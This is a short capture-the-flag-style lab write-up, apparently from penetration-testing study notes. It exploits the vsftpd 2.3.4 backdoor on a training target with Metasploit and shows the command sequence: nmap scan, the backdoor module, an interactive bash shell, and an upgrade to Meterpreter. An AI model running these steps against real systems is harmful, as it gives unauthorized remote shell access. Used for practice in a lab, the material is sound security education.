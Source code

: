 # 🔬FTP - MSF Exploit

## Lab 1

>  🔬 [Vulnerable FTP Server](https://www.attackdefense.com/challengedetailsnoauth?cid=179)
>
>  - Target IP: `192.80.80.3`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [vsftpd 2.3.4 - Backdoor Command Execution](https://www.exploit-db.com/exploits/49757)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.80.80.3
setg RHOST 192.80.80.3
workspace -a vsftpd2.3.4
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 192.80.80.3
```

![db_nmap -sS -sV -O 192.80.80.3](.gitbook/assets/image-20230416130726833.png)

```bash
analyze # error
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
info
# Description:
#   This module exploits a malicious backdoor that was added to the 
#   VSFTPD download archive. This backdoor was introduced into the 
#   vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
#   according to the most recent information available. This backdoor 
#   was removed on July 3rd 2011.
options
run
```

```bash
/bin/bash -i
```

![Metasploit - exploit/unix/ftp/vsftpd_234_backdoor](.gitbook/assets/image-20230416131200154.png)

- Shell to `Meterpreter` post exploitation

```bash
background
sessions
search _meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 2
set LHOST eth1
run

sessions
sessions 3
```

![](.gitbook/assets/image-20230416131524452.png)

------

